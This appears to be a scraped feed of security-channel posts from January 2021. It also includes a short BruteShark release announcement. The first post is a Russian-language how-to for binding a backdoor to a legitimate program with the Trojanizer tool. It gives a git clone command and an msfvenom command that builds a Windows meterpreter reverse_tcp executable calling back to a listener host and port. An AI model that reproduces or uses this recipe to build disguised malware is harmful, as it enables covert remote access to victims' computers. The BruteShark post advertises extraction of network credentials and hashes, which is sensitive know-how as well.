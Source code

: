
# overlamer1
`2021-01-24 14:48:47`

* https://graph.org/Svyazka-Backdoora-i-fajla-Kali-12-28

<blockquote>
Связка Backdoor'a и файла (Kali)
</blockquote>

<table><tr><td><b>→</b><a href="https://graph.org/Svyazka-Backdoora-i-fajla-Kali-12-28">
https://graph.org/Svyazka-Backdoora-i-fajla-Kali-12-28
</a>
<blockquote>
Инструмент Trojanizer использует WinRAR (SFX), чтоб сжать два файла между собой и преобразовать их в исполняемый архив SFX (.exe). SFX-архив при работе запускает оба файла (наш payload и легальное приложение одновременно). Откуда скачать? git clone https://github.com/r00t-3xp10it/trojanizer.git Далее создаем пейлоад, используя msfvenom msfvenom -p windows/meterpreter/reverse_tcp lhost&#61;192.168.1.111 lport&#61;4466 -f exe &gt; /root/Desktop/backdoor.exe Запуск Trojanizer Переходим в папку с Trojanizer и запускаем Trojanizer.sh…
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-24 04:53:04`

<blockquote>
BruteShark v1.1.5 released: single command mode was implemented. Extract Kerberos, NTLM, Cram-MD5, HTTP-Digest, FTP, Telnet passwords and more by a single command from your shell. All hashes exported as Hashcat input files. Would love to get feedbacks! https://github.com/odedshimon/BruteShark
https://www.reddit.com/r/netsec/comments/l31cbm/bruteshark_v115_released_single_command_mode_was/

via /r/netsec - Information Security News &amp; Discussion
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/odedshimon/BruteShark">
https://github.com/odedshimon/BruteShark
</a>
<blockquote>
Network Analysis Tool. Contribute to odedshimon/BruteShark development by creating an account on GitHub.
</blockquote>
</td></tr></table>

---

# R0_Crew
`2021-01-23 11:38:12`
